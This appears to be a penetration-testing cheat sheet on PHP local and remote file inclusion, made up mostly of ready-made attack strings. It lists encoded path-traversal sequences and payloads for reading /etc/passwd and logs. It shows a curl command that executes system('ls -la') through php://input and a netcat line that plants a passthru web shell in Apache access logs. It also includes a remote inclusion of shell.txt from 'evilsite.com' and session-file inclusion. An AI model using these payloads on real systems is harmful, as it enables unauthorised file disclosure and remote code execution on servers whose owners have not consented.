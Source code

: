 # LFI / RFI

- including uploaded files
- include data:// or php://input, php://filter pseudo protocol
- including logs
- including /proc/self/environ
- include session files - (usually names /tmp/sess_SESSIONID)
- include other files created by PHP application
- `C:\Windows\Temp\php<16-bit-random>.TMP` without bruteforce can do  `inc=C:\Windows\Temp\php<<`

## Path Traversal

```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

## LFI to RCE

### RCE with TXT upload
Expose .txt file and use a vulnerable `include` to include the txt file into code (evil.txt.php).

PHP config can be used to disable URL file access. But still local files can be accessed (allow_url_fopen / allow_url_include)

### RCE with Logs
- Use NC to write logs with malicious content to access_logs.
- Connect and just send the attack string (In user-agent etc.).
- Then include the log file (local file inclusion)

### RCE over SQLi
Return <?php echo "test"?> from SQL and see results to check if RCE is possible over SQLi

## References
- Universal LFI for Windows + PHP (using phpinfo): https://rdot.org/forum/showthread.php?t=1134
- https://www.owasp.org/index.php/Path_Traversal
- PHP LFI to arbitratry code execution via rfc1867 file upload temporary files: 

## PHP Wrappers

- File upload with POST data
  - `curl -s --data "<?system('ls -la');?>" "http://target.host/web.php?file_path=php://input%00"`
- Base64 encode the LFI
  - `http://X.X.X.X/?page=php://filter/convert.base64-encode/resource=(PHP FILE NAME NO EXTENSION)`

```
/proc/self/environ
C:\Windows\Temp\php<<

?file=.htaccess
?file=../../../../../../../../../var/lib/locate.db

?file=../../../../../../../../../var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log

/proc/self/fd/XX: http://pastebin.com/raw.php?i=cRYvK4jb

Null Byte Injection:
?file=../../../../../../../../../etc/passwd%00
Directory Listing with Null Byte Injection:
?file=../../../../../../../../../var/www/accounts/%00
Path Truncation:
?file=../../../../../../../../../etc/passwd.\.\.\.\.\.\.\.\.\.\.\ ...
Dot Truncation:
?file=../../../../../../../../../etc/passwd...........
Reverse Path Truncation:
?file=../../../../ […] ../../../../../etc/passwd

nc <IP> <port> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1 Host: <IP> Connection: close
?lfi_file=/var/log/apache2/access.log&cmd=<command>


Including Remote Code:
?file=[http|https|ftp]://evilsite.com/shell.txt
Using PHP stream php://input:
?file=php://input
Specify your payload in the POST parameters
Using PHP stream php://filter:
?file=php://filter/convert.base64-encode/resource=index.php
Using data URIs:
?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

auth.log

/proc/self/environ
index.php?p=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7%00
```
